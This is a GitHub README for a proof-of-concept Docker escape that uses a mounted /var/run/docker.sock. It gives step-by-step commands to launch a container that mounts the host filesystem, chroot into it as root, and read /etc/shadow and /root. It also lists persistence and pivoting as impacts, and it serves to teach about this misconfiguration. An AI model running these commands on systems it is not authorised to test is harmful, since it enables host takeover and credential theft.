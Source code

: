 # 🐳 Docker.sock Breakout PoC

> 🚨 A proof-of-concept showing how mounting `/var/run/docker.sock` into a container gives root access to the host.

This project demonstrates a **critical Docker misconfiguration**. By mounting the Docker Unix socket into a container, the container can communicate with the host Docker daemon — and effectively escape its sandbox, escalate privileges, and fully control the host.

## ⚠️ TL;DR

Mounting `/var/run/docker.sock` gives the container **root-level access to the host**.

## 📁 Project Structure

```
docker-sock-poc/
├── Dockerfile
├── docker-compose.yml
└── exploit.sh
```

## 🧪 How It Works

1. A container is started with `-v /var/run/docker.sock:/var/run/docker.sock`
2. Inside the container, Docker CLI is available
3. We use Docker inside the container to run **another** container
4. That second container mounts `/` from the host and runs `chroot /host`
5. Now we’re inside the host, as root

## 🚀 Quick Start

### 1. Build and Run

```bash
git clone git@github.com:CyberSquirrel-AI/docker-sock-breakout.git
cd docker-sock-poc

docker-compose up -d
docker exec -it docker-sock-breakout sh
```

### 2. Inside the Container

```bash
docker ps
docker run -it --rm -v /:/host alpine
```

### 3. Inside the Alpine container

```bash
chroot /host
hostname
id
ls /root
cat /etc/shadow
```


## 📉 Impact

- Full host filesystem access
- Run arbitrary containers as `--privileged`
- Read sensitive files like `/etc/shadow`, `/root/.ssh/`
- Install rootkits or persist on host
- Pivot to other containers, networks, volumes

## 🛡️ Mitigation

- ❌ Do NOT mount `/var/run/docker.sock` into untrusted containers

## ⚠️ Disclaimer

This project is for **educational purposes only**. Do not run this on any system you don't own or have permission to test. You are responsible for your actions.
